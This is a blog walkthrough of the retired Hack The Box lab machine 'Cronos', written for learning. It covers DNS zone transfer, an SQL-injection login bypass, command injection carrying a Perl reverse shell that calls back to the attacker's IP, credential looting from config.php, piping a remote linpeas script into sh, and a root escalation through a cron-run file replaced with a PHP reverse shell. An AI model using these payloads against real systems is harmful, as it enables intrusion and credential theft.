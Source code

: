 ```yaml
---
layout: post
title: "HTB-Cronos"
date: 2020-02-16 18:22:00 +0000
categories: HTB-Walkthrough
---
```


![cronos](/assets/img/cronos.png)

One of my favourite boxes this one...

`nmap -sV -Pn --min-rate 10000 |tee -a cronos.txt`

```

Nmap scan report for 10.10.10.13
Host is up (0.094s latency).
Not shown: 997 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

We see port 53 running, lets enumerate it...


<h3>Domain Enumeration</h3>

```

root@kali:~/HTB/retired/cronos# nslookup
> server 10.10.10.13
Default server: 10.10.10.13
Address: 10.10.10.13#53
> 10.10.10.13
13.10.10.10.in-addr.arpa        name = ns1.cronos.htb.

```

We can add cronos.htb to our /etc/hosts file.

Lets dig a little deeper...

`dig -axfr cronos.htb @10.10.10.13`

```

; <<>> DiG 9.11.5-P4-5.1+b1-Debian <<>> axfr cronos.htb @10.10.10.13
;; global options: +cmd
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13
admin.cronos.htb.       604800  IN      A       10.10.10.13
ns1.cronos.htb.         604800  IN      A       10.10.10.13
www.cronos.htb.         604800  IN      A       10.10.10.13
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 92 msec
;; SERVER: 10.10.10.13#53(10.10.10.13)
;; WHEN: Fri Jan 24 20:42:44 EST 2020
;; XFR size: 7 records (messages 1, bytes 203)

```

lets take a look now at http://admin.cronos.htb

Its a login page...
We can try some well known weak credentials, they fail so lets try sqli login bypass

In the username field type 

```

admin 'or 1=1# 

```

sometimes blank password is ok, sometimes random input is required.
Splendid, this gets us into the tracert webpage....we can try to inject commands here....

use ; to add command after the ping one; for example:

```

8.8.8.8;perl -e 'use Socket;$i="10.10.14.19";$p=6969;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

```

the perl reverse shell works! we catch the reverse shell on 
`nc -nlvp 6969`

##########################


<h3>Privilege Escalation</h3>

Taking a look around we know there's always goodies in the config.php file if its available...

```

$ cat config.php                                                                                                   
<?php                                                                                                              
   define('DB_SERVER', 'localhost');                                                                               
   define('DB_USERNAME', 'admin');                                                                                 
   define('DB_PASSWORD', 'kEjdbRigfBHUREiNSDs');                                                                   
   define('DB_DATABASE', 'admin');                                                                                 
   $db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE); 

```

This may be very useful, we can check the mysql database to see if we can find any other creds.

```

$ mysql -u admin -p
Enter password: kEjdbRigfBHUREiNSDs
use admin  
;
show tables;
select * from users;
quit
Tables_in_admin
users
id      username        password
1       admin   4f5fffa7b2340178a716e3832451e058
$ 

```

[g0tmi1k's linux privilege escalation guide is the Bible of linux enum](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/),

one of the first commands I always run (after `sudo -l` and `sudo su`) is
`find / -perm -u=s -type f 2>/dev/null`

```

find / -perm -u=s -type f 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/fusermount
/bin/su
/bin/ntfs-3g
/bin/ping6
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/chsh
/usr/bin/newuidmap
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/at
/usr/bin/pkexec
/usr/bin/newgidmap
/usr/bin/gpasswd
/usr/bin/passwd

```

Its important to become well practiced in the techniqes, methods and commands g0tmilk covers. For convenience many folk suppliment this knowlege with using enumeration scripts.
Theres a few good ones out there, [LinEnum.sh](https://github.com/rebootuser/LinEnum) is a good comprehensive one, but the one ive started using first recently is [linpeas.sh](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite)

We can use curl (when available on targets) to run the enumeration from our attacking machine.

```

curl 10.10.14.19/linpeas.sh |sh |tee -a enum.txt

```

...so we dont even upload the file to the target...neat trick...

Whilst increasingly becomming my goto method of enum, when the conditions allow, its not actually needed here; the way forward is practically right in front of us.

In /var/www/laravel there is an interesting file called 'artisan'.
Looking at our enum.txt output from linpeas.sh we find that cronjob run by root executes it.

our wwwdata user has write privileges in the www folder, so we can replace with evil.php get rootshell....
the php reverse shell can be downloaded from pentestmonkey's website, but its also available in /usr/share/webshells/
we just need to modify the lhost and port settings.

There's a few ways we can get the file to the target... we can copy'n'paste it into vi, we can use `wget` or `curl -O`

```

root@kali:~/HTB/retired/cronos# nc -nlvp 31337
listening on [any] 31337 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.10.13] 56894
Linux cronos 4.4.0-72-generic #93-Ubuntu SMP Fri Mar 31 14:07:41 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 04:38:01 up  2:55,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=0(root) gid=0(root) groups=0(root)
/bin/sh: 0: can't access tty; job control turned off
# cat /home/*/user.txt
51xxxxxxxxxxxxxxxxxxxxxxxxxxxx3b
# cat /root/root.txt
1xxxxxxxxxxxxxxxxxxxxxxxxxxxxxa0

```

##########################

Exploiting suid files to escalate privileges is an important technique to practice and remember to look out for,
it will often be the best (and sometimes only) way to get root. 
[Check out this article for a good explaination](https://www.hackingarticles.in/linux-privilege-escalation-using-suid-binaries/)
